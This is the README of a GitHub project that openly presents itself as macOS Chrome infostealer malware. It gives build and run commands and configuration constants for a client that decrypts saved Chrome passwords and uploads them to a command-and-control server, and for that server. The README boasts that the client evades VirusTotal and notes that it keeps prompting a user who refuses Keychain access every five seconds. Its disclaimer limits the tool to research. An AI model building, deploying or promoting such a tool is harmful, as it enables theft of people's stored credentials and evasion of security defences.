 ```bash
 ██████╗ ███████╗██╗  ██╗     ██████╗██╗  ██╗██████╗  ██████╗ ███╗   ███╗███████╗
██╔═══██╗██╔════╝╚██╗██╔╝    ██╔════╝██║  ██║██╔══██╗██╔═══██╗████╗ ████║██╔════╝
██║   ██║███████╗ ╚███╔╝     ██║     ███████║██████╔╝██║   ██║██╔████╔██║█████╗
██║   ██║╚════██║ ██╔██╗     ██║     ██╔══██║██╔══██╗██║   ██║██║╚██╔╝██║██╔══╝
╚██████╔╝███████║██╔╝ ██╗    ╚██████╗██║  ██║██║  ██║╚██████╔╝██║ ╚═╝ ██║███████╗
 ╚═════╝ ╚══════╝╚═╝  ╚═╝     ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝

██╗███╗   ██╗███████╗ ██████╗ ███████╗████████╗███████╗ █████╗ ██╗     ███████╗██████╗
██║████╗  ██║██╔════╝██╔═══██╗██╔════╝╚══██╔══╝██╔════╝██╔══██╗██║     ██╔════╝██╔══██╗
██║██╔██╗ ██║█████╗  ██║   ██║███████╗   ██║   █████╗  ███████║██║     █████╗  ██████╔╝
██║██║╚██╗██║██╔══╝  ██║   ██║╚════██║   ██║   ██╔══╝  ██╔══██║██║     ██╔══╝  ██╔══██╗
██║██║ ╚████║██║     ╚██████╔╝███████║   ██║   ███████╗██║  ██║███████╗███████╗██║  ██║
╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚══════╝   ╚═╝   ╚══════╝╚═╝  ╚═╝╚══════╝╚══════╝╚═╝  ╚═╝

- By The Kernel Panic
```

# OSX Chrome Infostealer

OSX Chrome Infostealer is a tool for decrypting and exporting Chrome passwords and sending them securely to a remote Command and Control (C2) Server.

> Disclaimer: This tool is only intended for security research. Users are responsible for all legal and related liabilities resulting from the use of this tool. The original author does not assume any legal responsibility.

## Features

- Extracts encrypted passwords stored in Chrome profiles.
- Decrypts passwords using Chrome's Safe Storage Key.
- Encrypts the decrypted passwords using AES-256-GCM.
- Sends the encrypted data to a specified C2 server.
- Automatically handles errors and retries for failed operations.
- Gracefully terminates running Chrome processes before accessing its files.
- The malware is undetected by VirusTotal. `SHA-256 Hash: 275d13e8dbf5613fb2591d790ed2558d657deca473c08e31566aa5ac2f3667eb`

![Virus Total Scan Result](VT_scan.png "Virus Total Scan Result")

### Server

- Handles incoming encrypted data uploads.
- Decrypts uploaded data using AES-256-GCM.
- Saves decrypted data to a YAML file.
- Logs errors and error reports to a file.
- Provides endpoints for:
  - `/upload`: To handle main data uploads.
  - `/report_error`: To receive and log error reports.

## Requirements

- macOS system with Chrome installed.
- Go 1.18 or later.
- Internet access for communication with the C2 server.

## Installation

1. **Clone the repository:**

   ```bash
   git clone https://github.com/Piyush-Bhor/osx-chrome-infostealer.git
   cd osx-chrome-infostealer
   ```

2. **Install dependencies:**
   Ensure you have Go modules enabled and run:

   ```bash
   go mod tidy
   ```

3. **Build the program:**

- Infostealer

```bash
go build /client/main.go -o main
```

- C2 Server

```bash
go build  /server/server.go -o server
```

## Usage

### Client

1. **Run the program:**

   ```bash
   ./main
   ```

2. The program will:
   - Locate Chrome's `Login Data` SQLite files for each profile.
   - Extract and decrypt passwords stored in the database.
   - Encrypt the extracted data and upload it to the C2 server at the specified URL.
   - If the user denies permission to access Chrome Safe Storage Key, it will keep prompting for a password every 5 seconds.

### Server

1. **Run the server:**
   ```bash
   ./c2-server
   ```
2. The server will start listening on `http://localhost:8080` and provide the following endpoints:
   - `/upload`: Accepts encrypted data uploads from the decryptor.
   - `/report_error`: Accepts error reports and logs them to a file.

## Configuration

- **C2_URL**: The URL of the Command and Control server. Update the constant in the code if required:

  ```go
  const C2_URL = "http://localhost:8080/upload"
  ```

- **AES Key**: The AES encryption key used for secure data transmission to the C2 server. This is defined in the code:

  ```go
  const key = "your-32-byte-key-goes-here"
  ```

- **Retry Interval**: The interval for retrying operations like fetching the Safe Storage Key if permissions are denied:

  ```go
  const retryInterval = 5 * time.Second
  ```

- **Server Port:**
  The server listens on port `8080` by default. Update this in the `main()` function of the server code if necessary:

  ```go
  port := ":8080"
  ```

- **Output Files:**
  - **Decrypted Data:** The server saves decrypted data to `output.yaml`.
  - **Error Logs:** Errors and error reports are logged to `error_log.txt`.

## Security Considerations

- **Permissions**: The program requires access to Chrome's `Login Data` and macOS Keychain. If permissions are denied, the program will retry until granted.
- **Encryption**: All data sent to the C2 server is encrypted using AES-256-GCM for confidentiality.
- **Error Logging**: Any errors encountered during execution are securely reported to the C2 server.

## Dependencies

- `github.com/mattn/go-sqlite3`: SQLite driver for accessing Chrome's `Login Data` files.
- `golang.org/x/crypto/pbkdf2`: PBKDF2 implementation for deriving encryption keys.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
